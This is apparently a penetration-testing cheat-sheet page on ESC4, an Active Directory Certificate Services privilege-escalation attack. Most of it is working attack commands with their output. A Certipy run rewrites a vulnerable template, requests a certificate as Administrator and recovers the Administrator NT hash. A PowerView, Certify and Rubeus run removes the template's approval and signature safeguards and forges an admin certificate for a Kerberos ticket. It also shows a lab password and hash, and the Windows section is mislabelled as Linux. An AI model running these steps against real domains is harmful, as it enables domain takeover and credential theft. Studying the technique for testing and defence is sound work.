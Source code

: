 ```yaml
---
description: ESC4 | Access control attack | Active Directory Certificate Services
---
```


# ESC4

ESC4 uses acces control attacks to exploit misconfigurations in the Certificate Authority or the certifate's DACLs, where low-privileged users can perform dangerous tasks. With elevated privileges over an object its possible to perform various actions, like with FullControl over a user we can reset the password.

{% hint style="info" %}
Certificate templates in Active Directory have permissions that control who can access and modify them. These permissions are set using a security descriptor. A template is misconfigured if it allows unintended or unprivileged users to edit it.
{% endhint %}

### ESC4 from Linux

Start with finding vulnerable templates

```bash
# Enumeration
certipy find -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout

# Result
    [!] Vulnerabilities
      ESC4                              : 'LAB.LOCAL\\Black Wasp' has dangerous permissions
```

#### Abuse from Linux

With certify we can simply configure all required settings in one command having the proper rights over a template. We need to use the `template` option with the name of the template. -save-old is used to restore.&#x20;

{% hint style="info" %}
When facing dns problems or in need of kerberos auth use `-target` which set DNS Name or IP Address of the target machine. Required for Kerberos or SSPI authentication
{% endhint %}

```bash
# Configure template
└─$ certipy template -u 'BlWasp@lab.local' -p 'Password123!' -target 10.129.228.236 -template ESC4 -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Next we can set UPN and the administrator hashs

```bash
└─$ certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template ESC4 -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 64
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'    

└─$ certipy auth -pfx administrator.pfx -username Administrator -domain lab.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe                      
```

### ESC4 from Linux

Start with finding vulnerable templates with&#x20;

```powershell
.\Certify.exe find
```

Import PowerView

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
```

Add Certificate Enrollment rights

```powershell
Add-DomainObjectAcl -TargetIdentity ESC4 -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=lab,DC=local" -Verbose
```

Disable manager approval requirement

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-enrollment-flag'=9} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-enrollment-flag' to '9' for object ''
```

Disable `Authorized Signature Requirement`. Set `mspki-ra-signature` attribute to `0`:\\

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-ra-signature'=0} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-ra-signature' to '0' for object ''
```

&#x20;Allow requesters to specify a `subjectAltName` in the `CSR`

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-certificate-name-flag'=1} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] XORing 'mspki-certificate-name-flag' with '1' for object ''=
```

Allow this certificate to be used for `Client Authentication`.

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'pkiextendedkeyusage'='1.3.6.1.5.5.7.3.2'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'pkiextendedkeyusage' to '1.3.6.1.5.5.7.3.2' for object ''
```

Setting mspki-certificate

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-certificate-application-policy' to '1.3.6.1.5.5.7.3.2' for object ''
```

With Certify request alternive SAN

```powershell
.\Certify.exe request /ca:LAB-DC\lab-LAB-DC-CA /template:ESC4 /altname:Administrator
```

Convert the certificate

```powershell-session
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in admin-esc4.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin-esc4.pfx
```

Authenicate with certificate

```powershell-session
.\Rubeus.exe asktgt /user:administrator /certificate:admin-esc4.pfx /getcredentials
```
